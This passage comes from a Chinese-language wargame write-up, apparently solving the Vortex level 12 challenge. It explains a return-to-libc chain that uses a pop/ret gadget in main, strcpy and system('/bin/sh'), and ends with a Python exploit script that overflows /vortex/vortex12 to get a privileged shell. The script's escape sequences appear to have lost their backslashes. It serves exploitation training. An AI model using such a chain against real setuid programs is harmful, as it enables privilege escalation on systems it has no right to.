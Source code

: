     <td width="72" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      n
    </td>

    <td width="72" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      strcpy
    </td>

    <td width="72" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      sleep
    </td>

    <td width="72" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      dest
    </td>

    <td width="72" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      src
    </td>
  </tr>
</table>

<p style="text-indent: 2em;">
  其中magic指针指向处的指令为：
</p>

<pre class="brush:plain;toolbar:false">&nbsp;&nbsp;&nbsp;0x80486bf&nbsp;&lt;main+159&gt;:	pop&nbsp;&nbsp;&nbsp;&nbsp;%ebp
&nbsp;&nbsp;&nbsp;0x80486c0&nbsp;&lt;main+160&gt;:	ret</pre>

<p style="text-indent: 2em;">
  我这里用的是main函数结尾处的两条指令，其它地方的类似这样的指令也可以。通过这样的指令，我们可以使得magic处的ret指令返回到strcpy中，实现我们需要的效果。然而，由于我们的字符串中不能出现x00，这也就意味着n至少为0x<a></a>01010101，还是太大，不可行。
</p>

<p style="text-indent: 2em;">
  最后，我将sleep(n)换成了system("/bin/sh")，这样，我们运行这个程序之后，就会先得到一个已经没有权限的shell，然后等一会后手动Ctrl+D关掉这个shell之后，正常情况下就会又出现一个有权限的shell。
</p>

<p style="text-indent: 2em;">
  最终程序如下：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8

import&nbsp;subprocess

sleep_addr&nbsp;=&nbsp;&#39;xd0x5cxecxf7&#39;
sys_addr&nbsp;=&nbsp;&#39;x30x3exfcxf7&#39;
cpy_addr&nbsp;=&nbsp;&#39;xb0x84x04x08&#39;
sh_addr&nbsp;=&nbsp;&#39;xdfxdfxffxff&#39;
dest&nbsp;=&nbsp;&#39;x3cxb3xe0xf7&#39;
src&nbsp;=&nbsp;&#39;xd2xdfxffxff&#39;
ret_addr&nbsp;=&nbsp;&#39;xbfx86x04x08&#39;
subprocess.Popen([&#39;/vortex/vortex12&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;1036&nbsp;+&nbsp;sys_addr&nbsp;+&nbsp;ret_addr&nbsp;+&nbsp;sh_addr&nbsp;+&nbsp;cpy_addr&nbsp;+&nbsp;sleep_addr&nbsp;+&nbsp;dest&nbsp;+&nbsp;src,&nbsp;sys_addr&nbsp;+&nbsp;sh_addr&nbsp;+&nbsp;sh_addr,&nbsp;&#39;/bin/sh&#39;],&nbsp;env&nbsp;=&nbsp;{}).communicate()</pre>

<p style="text-indent: 2em;">
  至此，这一关得以解决。
</p>
